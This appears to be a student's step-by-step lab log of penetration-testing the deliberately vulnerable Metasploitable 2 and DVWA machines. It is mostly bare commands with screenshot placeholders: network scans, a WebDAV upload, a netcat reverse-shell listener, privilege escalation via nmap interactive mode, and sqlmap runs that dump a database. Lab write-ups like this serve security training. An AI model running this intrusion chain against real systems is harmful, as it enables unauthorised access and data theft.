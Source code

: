﻿# Metalsploitabl2 192.168.7.132
## Andrea Zonnekus 18758119

sudo netdiscover -i eth0

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.001.png)

sudo nmap -sV -p- -sC -O 192.168.7.132 -o host

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.002.png)

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.003.png)

enum4linux -r 192.168.2.155

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.004.png)

searchsploit ProFTPD 1.3.1

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.005.png)



rlogin -l root 192.168.7.132

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.006.png)

davtest --url <http://192.168.7.132/dav/>

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.007.png)

cadaver <http://192.168.7.132/dav>

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.008.png)

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.009.png)



nc -lvnp 1234

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.010.png)

uname -a

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.011.png)

cat /etc/\*release

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.012.png)

python -c 'import pty; pty.spawn("/bin/bash")'

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.013.png)

put linpeas.sh

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.014.png)

./linpeas.sh

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.015.png)

nmap –interactive

!sh

whoami

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.016.png)





![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.017.png)

<http://192.168.56.108/dvwa/vulnerabilities/sqli/?id=1>

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.018.png)

PHPSESSID=4157f0462af950f5ddf4543b8cbeceb5

<http://192.168.56.108/dvwa/login.php>

sqlmap -u "http://192.168.56.108/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=4157f0462af950f5ddf4543b8cbeceb5" –dbs

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.019.png)

sqlmap -u "http://192.168.56.108/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=4157f0462af950f5ddf4543b8cbeceb5" --tables -D dvwa

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.020.png)



sqlmap -u "http://192.168.56.108/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=4157f0462af950f5ddf4543b8cbeceb5" -D dvwa –dump

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.021.png)

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.022.png)

wapiti-getcookie -c cooke.json -u <http://192.168.56.108/dvwa/login.php>

![](metasploitabl2_steps/Aspose.Words.a593a838-a8f3-4b41-9f0e-36a929165382.023.png)



<http://192.168.56.108/xvwa/>

